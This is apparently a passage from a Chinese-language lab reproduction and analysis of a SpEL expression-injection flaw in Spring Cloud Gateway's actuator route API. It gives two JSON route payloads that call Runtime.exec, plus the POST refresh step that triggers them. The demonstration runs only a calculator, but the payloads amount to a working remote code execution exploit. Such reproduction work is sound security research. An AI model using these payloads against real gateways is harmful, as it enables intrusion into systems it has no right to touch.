 查看当前路由

```
http://localhost:8081/actuator/gateway/routes
```

![image-20220407204758221](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220407204758221.png)

构造一个包含恶意请求的路由

```
{
  "id": "test",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{T(java.lang.Runtime).getRuntime().exec('calc')}"
    }
  }],
  "uri": "https://xz.aliyun.com/"
}
```

uri这里可以随便填写

刷新网关路由

```
http://localhost:8081/actuator/gateway/refresh
```

但是这里要用POST方法去发包才能触发

![image-20220407211338960](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220407211338960.png)

另外一种形式的payload

```
{
  "id": "hacktest",
  "predicates": [{
    "name": "Path",
    "args": {"_genkey_0":"#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"calc\"}).getInputStream()))}"}
  }],
  "uri": "http://example.com"
}
```

# 漏洞分析

漏洞的触发点在**org.springframework.cloud.gateway.support.ShortcutConfigurable#getValue**

![image-20220407214235554](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220407214235554.png)
